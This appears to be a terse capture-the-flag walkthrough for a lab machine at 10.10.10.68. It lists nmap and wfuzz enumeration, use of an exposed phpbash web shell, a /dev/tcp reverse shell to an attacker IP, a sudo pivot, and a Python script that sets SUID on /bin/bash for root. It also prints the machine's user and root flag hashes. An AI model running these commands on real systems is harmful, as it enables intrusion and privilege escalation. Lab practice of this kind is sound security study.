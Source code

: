 furious 10.10.10.68

nmap -sC -sV -Pn -n -p80 10.10.10.68 -oN targeted

wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.68/

http://10.10.10.68/dev/phpbash.php

echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" > shell.sh

sudo python3 -m http.server 80

sudo -l

sudo -u scriptmanager bash

cat /home/arrexel/user.txt

## user
2c281f318555dbc1b856957c7147bfc1

find / type f -user scriptmanager 2>/dev/null

nano /scripts/test.py

```python3
import os
os.system("chmod 4755 /bin/bash")
```

ls -l
bash -p

cat /root/root.txt
## root
cc4f0afe3a1026d402ba10329674a8e2

![gcore.gif](gcore.gif)
